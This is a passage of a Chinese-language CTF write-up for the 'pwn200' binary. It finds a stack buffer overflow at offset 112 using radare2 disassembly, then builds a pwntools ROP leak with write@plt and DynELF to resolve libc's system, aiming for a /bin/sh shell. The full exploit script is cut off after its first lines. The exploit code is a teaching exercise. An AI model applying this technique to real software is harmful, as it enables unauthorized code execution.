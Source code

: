 ```
1094205761 found at offset: 112
```
在 r2 中对程序进行分析，发现一个漏洞函数，地址为 `0x08048484`：
```
[0x080483d0]> pdf @ sub.setbuf_484
/ (fcn) sub.setbuf_484 58
|   sub.setbuf_484 ();
|           ; var int local_6ch @ ebp-0x6c
|           ; var int local_4h @ esp+0x4
|           ; var int local_8h @ esp+0x8
|              ; CALL XREF from 0x0804855f (main)
|           0x08048484      55             push ebp
|           0x08048485      89e5           mov ebp, esp
|           0x08048487      81ec88000000   sub esp, 0x88
|           0x0804848d      a120a00408     mov eax, dword [obj.stdin]  ; [0x804a020:4]=0
|           0x08048492      8d5594         lea edx, [local_6ch]
|           0x08048495      89542404       mov dword [local_4h], edx
|           0x08048499      890424         mov dword [esp], eax
|           0x0804849c      e8dffeffff     call sym.imp.setbuf         ; void setbuf(FILE *stream,
|           0x080484a1      c74424080001.  mov dword [local_8h], 0x100 ; [0x100:4]=-1 ; 256
|           0x080484a9      8d4594         lea eax, [local_6ch]
|           0x080484ac      89442404       mov dword [local_4h], eax
|           0x080484b0      c70424000000.  mov dword [esp], 0
|           0x080484b7      e8d4feffff     call sym.imp.read           ; ssize_t read(int fildes, void *buf, size_t nbyte)
|           0x080484bc      c9             leave
\           0x080484bd      c3             ret
```
于是我们构造 leak 函数如下，即 `write(1, addr, 4)`：
```python
def leak(addr):
    payload  = "A" * 112
    payload += p32(write_plt)
    payload += p32(vuln_addr)
    payload += p32(1)
    payload += p32(addr)
    payload += p32(4)
    io.send(payload)
    data = io.recv()
    log.info("leaking: 0x%x --> %s" % (addr, (data or '').encode('hex')))
    return data

d = DynELF(leak, elf=elf)
system_addr = d.lookup('system', 'libc')
log.info("system address: 0x%x" % system_addr)
```
注意我们需要一个 pppr 的 gadget 来平衡栈：
```
$ ropgadget --binary pwn200 --only "pop|ret"
...
0x0804856c : pop ebx ; pop edi ; pop ebp ; ret
```
得到了 system 的地址，就可以利用 read 函数读入 "/bin/sh"，从而得到 shell，完整的 exp 如下：
```python
from pwn import *

# context.log_level = 'debug'

elf = ELF('./pwn200')
io = process('./pwn200')
io.recvline()

write_plt = elf.plt['write']
write_got = elf.got['write']
```